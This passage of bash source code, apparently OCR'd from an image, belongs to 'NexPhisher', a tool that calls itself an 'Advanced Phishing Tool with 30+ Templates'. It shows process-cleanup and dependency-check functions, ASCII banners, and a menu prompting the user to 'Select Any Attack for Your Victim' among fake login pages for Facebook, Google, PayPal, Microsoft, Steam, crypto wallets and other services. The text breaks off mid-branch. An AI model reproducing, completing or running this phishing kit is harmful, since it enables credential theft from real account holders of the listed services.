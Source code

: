 "\e[0m\n" printf "\e[0m\e[1;36m\t CTRL + C Pressed !!\n" sleep 2 printf "\e[0m\n" printf " \e[0m\e[1;42m Thanks for Using This Tool !!\e[0m \e[1;44m Visit https://github.com/htr-tech for more\e[0m\n" printf "\e[0m\n" exit 1 } stop() { checkngrok=$(ps aux | grep -o "ngrok" | head -n1) checkphp=$(ps aux | grep -o "php" | head -n1) checkssh=$(ps aux | grep -o "ssh" | head -n1) if [[ $checkngrok == *'ngrok'* ]]; then pkill -f -2 ngrok > /dev/null 2>&1 killall ngrok > /dev/null 2>&1 fi if [[ $checkphp == *'php'* ]]; then pkill -f -2 php > /dev/null 2>&1 killall php > /dev/null 2>&1 fi if [[ $checkssh == *'ssh'* ]]; then pkill -f -2 ssh > /dev/null 2>&1 killall ssh > /dev/null 2>&1 fi if [[ -e .nexlink ]]; then rm -rf .nexlink fi } reqs() { command -v php > /dev/null 2>&1 || { printf "\n\e[0m\e[96m Packages are not Installed ! type \e[0m\e[93mbash setup\e[0m\n\n"; exit 1; } command -v curl > /dev/null 2>&1 || { printf "\n\e[0m\e[96m Packages are not Installed ! type \e[0m\e[93mbash setup\e[0m\n\n"; exit 1; } command -v ssh > /dev/null 2>&1 || { printf "\n\e[0m\e[96m Packages are not Installed ! type \e[0m\e[93mbash setup\e[0m\n\n"; exit 1; } command -v unzip > /dev/null 2>&1 || { printf "\n\e[0m\e[96m Packages are not Installed ! type \e[0m\e[93mbash setup\e[0m\n\n"; exit 1; } if [[ -d .htr ]]; then printf "" else printf "\n\e[0m\e[96m Packages are not Found ! type \e[0m\e[93mbash setup\e[0m\n\n" exit 1 fi if [[ -d .Modules ]]; then printf "" else printf "\n\e[0m\e[96m Packages are not Found ! type \e[0m\e[93mbash setup\e[0m\n\n" exit 1 fi if [[ -d .htr/www ]]; then rm -rf .htr/www mkdir .htr/www else mkdir .htr/www fi } banner() { clear printf "\e[0m\n" printf "\e[0m\e[92m _ _ \e[0m\e[93m _____ _ _ _ \e[0m\n" printf "\e[0m\e[92m | \ | | \e[0m\e[93m| __ \| | (_) | | \e[0m\n" printf "\e[0m\e[92m | \| | _____ __ \e[0m\e[93m| |__) | |__ _ ___| |__ ___ _ __ \e[0m\n" printf "\e[0m\e[92m | . |/ _ \ \/ / \e[0m\e[93m| ___/| _ \| / __| _ \ / _ \ __| \e[0m\n" printf "\e[0m\e[92m | |\ | __/> < \e[0m\e[93m| | | | | | \__ \ | | | __/ | \e[0m\n" printf "\e[0m\e[92m |_| \_|\___/_/\_\ \e[0m\e[93m|_| |_| |_|_|___/_| |_|\___|_| \e[0m\e[1;44m[V 1.0]\e[0m\n" printf "\e[0m\n" printf " \e[0m\e[1;41m Advanced Phishing Tool with 30+ Templates [BY : HTR-TECH ]\e[0m\n" printf "\e[0m\n" } smallbanner() { clear printf "\e[0m\n" printf "\e[0m\e[93m _ _ ___ _ _ ___ _ _ ___ ___ _ _ ___ ___ \e[0m\n" printf "\e[0m\e[93m |\ | |__ \_/ |___] |__| | |__ |__| |__ |__/ \e[0m\n" printf "\e[0m\e[93m | \| |__ _/ \_ | _| | _|_ ___|| |_|__ | \_ \e[0m\e[1;46m[V 1.0]\e[0m\n" printf "\e[0m\n" printf " \e[0m\e[1;44m Advanced Phishing Tool with 30+ Templates\e[0m\n" printf "\e[0m\n" printf "\e[0m\e[91m [\e[0m\e[96m BY \e[0m\e[91m: \e[0m\e[96mhttps://github.com/htr-tech \e[0m\e[91m] \e[0m\n" printf "\e[0m\n" } menu() { printf " \e[0m\e[1;46m[::] Select Any Attack for Your Victim [::]\e[0m\n" printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m01\e[0m\e[1;31m]\e[0m\e[1;93m Facebook \e[0m\e[1;31m[\e[0m\e[1;77m11\e[0m\e[1;31m]\e[0m\e[1;93m Twitch \e[0m\e[1;31m[\e[0m\e[1;77m21\e[0m\e[1;31m]\e[0m\e[1;93m DeviantArt	\e[0m\e[1;31m[\e[0m\e[1;77m99\e[0m\e[1;31m]\e[0m\e[1;93m About\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m02\e[0m\e[1;31m]\e[0m\e[1;93m Instagram \e[0m\e[1;31m[\e[0m\e[1;77m12\e[0m\e[1;31m]\e[0m\e[1;93m Pinterest \e[0m\e[1;31m[\e[0m\e[1;77m22\e[0m\e[1;31m]\e[0m\e[1;93m Badoo		\e[0m\e[1;31m[\e[0m\e[1;77m00\e[0m\e[1;31m]\e[0m\e[1;93m Exit\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m03\e[0m\e[1;31m]\e[0m\e[1;93m Google \e[0m\e[1;31m[\e[0m\e[1;77m13\e[0m\e[1;31m]\e[0m\e[1;93m Snapchat \e[0m\e[1;31m[\e[0m\e[1;77m23\e[0m\e[1;31m]\e[0m\e[1;93m Origin\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m04\e[0m\e[1;31m]\e[0m\e[1;93m Microsoft \e[0m\e[1;31m[\e[0m\e[1;77m14\e[0m\e[1;31m]\e[0m\e[1;93m Linkedin \e[0m\e[1;31m[\e[0m\e[1;77m24\e[0m\e[1;31m]\e[0m\e[1;93m CryptoCoin\e[0m\n"	 printf " \e[1;31m[\e[0m\e[1;77m05\e[0m\e[1;31m]\e[0m\e[1;93m Netflix \e[0m\e[1;31m[\e[0m\e[1;77m15\e[0m\e[1;31m]\e[0m\e[1;93m Ebay \e[0m\e[1;31m[\e[0m\e[1;77m25\e[0m\e[1;31m]\e[0m\e[1;93m Yahoo	\e[0m\n"	 printf " \e[1;31m[\e[0m\e[1;77m06\e[0m\e[1;31m]\e[0m\e[1;93m Paypal \e[0m\e[1;31m[\e[0m\e[1;77m16\e[0m\e[1;31m]\e[0m\e[1;93m Dropbox \e[0m\e[1;31m[\e[0m\e[1;77m26\e[0m\e[1;31m]\e[0m\e[1;93m Wordpress\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m07\e[0m\e[1;31m]\e[0m\e[1;93m Steam \e[0m\e[1;31m[\e[0m\e[1;77m17\e[0m\e[1;31m]\e[0m\e[1;93m Protonmail \e[0m\e[1;31m[\e[0m\e[1;77m27\e[0m\e[1;31m]\e[0m\e[1;93m Yandex	\e[0m\n"		 printf " \e[1;31m[\e[0m\e[1;77m08\e[0m\e[1;31m]\e[0m\e[1;93m Twitter \e[0m\e[1;31m[\e[0m\e[1;77m18\e[0m\e[1;31m]\e[0m\e[1;93m Spotify \e[0m\e[1;31m[\e[0m\e[1;77m28\e[0m\e[1;31m]\e[0m\e[1;93m StackoverFlow\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m09\e[0m\e[1;31m]\e[0m\e[1;93m Playstation \e[0m\e[1;31m[\e[0m\e[1;77m19\e[0m\e[1;31m]\e[0m\e[1;93m Reddit \e[0m\e[1;31m[\e[0m\e[1;77m29\e[0m\e[1;31m]\e[0m\e[1;93m Vk\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m10\e[0m\e[1;31m]\e[0m\e[1;93m Github \e[0m\e[1;31m[\e[0m\e[1;77m20\e[0m\e[1;31m]\e[0m\e[1;93m Adobe \e[0m\e[1;31m[\e[0m\e[1;77m30\e[0m\e[1;31m]\e[0m\e[1;93m XBOX\e[0m\n" printf "\e[0m\n" read -p $' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Select an option: \e[0m\e[1;96m\en' menu_option if [[ $menu_option == 1 || $menu_option == 01 ]]; then facebook elif [[ $menu_option == 2 || $menu_option == 02 ]]; then instagram elif [[ $menu_option == 3 || $menu_option == 03 ]]; then gmail elif [[ $menu_option == 4 || $menu_option == 04 ]]; then website="microsoft" tunnel_menu elif [[ $menu_option == 5 || $menu_option == 05 ]]; then website="netflix" tunnel_menu elif [[ $menu_option == 6 || $menu_option == 06 ]]; then website="paypal" tunnel_menu elif [[ $menu_option == 7 || $menu_option == 07 ]]; then website="steam" tunnel_menu elif [[ $menu_option == 8 || $menu_option == 08 ]]; then website="twitter" tunnel_menu elif [[ $menu_option == 9 || $menu_option == 09 ]]; then